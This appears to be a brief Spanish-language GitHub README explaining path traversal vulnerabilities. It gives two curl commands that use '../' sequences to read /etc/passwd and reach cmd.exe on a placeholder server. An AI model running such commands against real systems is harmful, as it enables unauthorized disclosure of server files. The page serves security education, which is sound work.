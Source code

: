 ## directoriotrasversal

Path Traversal (o Directory Traversal) es una vulnerabilidad web que permite a un atacante acceder a archivos y directorios fuera del directorio raíz del servidor web.

se manipula parámetros de la URL o inputs que contienen rutas de archivos (como ../../) para moverse por las carpertas del servidor.

Si el servidor no valida correctamente las entradas, puede exponer archivos sensibles como:

Configuraciones (/etc/passwd en Linux).
#
## ejemplos simples para explotar la vulnerabilidade de directorio trasversal o path traversal:

curl --path-as-is -k -v http://ip:80/../../../../../etc/passwd

<img style="float:left" alt="Path traversal simple" src="https://github.com/hackingyseguridad/directoriotraversal/blob/master/pathtraversal.png">

curl --path-as-is -k -v http://ip:80/../../../../../../windows/system32/cmd.exe



## http://www.hackingyseguridad.com

Codigos de respuesta HTTP https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html
